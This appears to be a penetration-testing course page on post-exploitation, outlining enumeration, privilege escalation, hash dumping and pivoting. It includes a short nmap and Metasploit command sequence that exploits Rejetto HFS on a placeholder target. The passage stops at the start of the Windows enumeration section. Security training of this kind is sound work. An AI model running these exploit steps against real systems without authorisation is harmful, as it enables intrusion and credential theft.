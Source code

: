 # Host & Network Penetration Testing - Post-Exploitation

Post-exploitation is the final phase of the penetration testing process and consists of the tactics, techniques, and procedures that attackers/adversaries undertake after obtaining initial access to a target system. In this course, you will learn:
- Understand the **purpose and goals of post-exploitation** in the penetration testing life-cycle
- Perform **local enumeration** on compromised systems to gather:
    - Users and groups
    - Stored credentials
    - Running services and system info
- Learn **privilege escalation techniques** on both:
    - Windows systems
    - Linux systems
- Discover how to **maintain access** to compromised targets (persistence)
- Learn how to **dump and crack password hashes** for:
    - Authentication as legitimate users
    - Enabling lateral movement
- Perform **internal network discovery** to identify new targets within the compromised environment
- Learn how to **pivot** to other systems within the internal network
- Gain **hands-on experience** with tools and techniques used in real-world post-exploitation scenarios

<br>

## 1. Windows Local Enumeration

>**Gain access to the target systems**

```shell
# Port scanning with Nmap
ping -c 1 <target_IP>
nmap -sV <target_IP>
# Gain access to the system
searchsploit rejetto
service postgresql start && msfconsole
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS <target_IP>
exploit
```

### 1.1. Enumerating System Information - Windows

What are we looking for?
- Hostname
- OS Name (Windows 7, 8 etc)
- OS Build & Service Pack (Windows 7 SP1 7600)
- OS Architecture (x64/x86) - relevant for payloads and meterpreter version
- Installed updates/Hot-fixes

**Objective:** To cover the process of enumerating local system information from a Windows target.

**Post exploitation** 
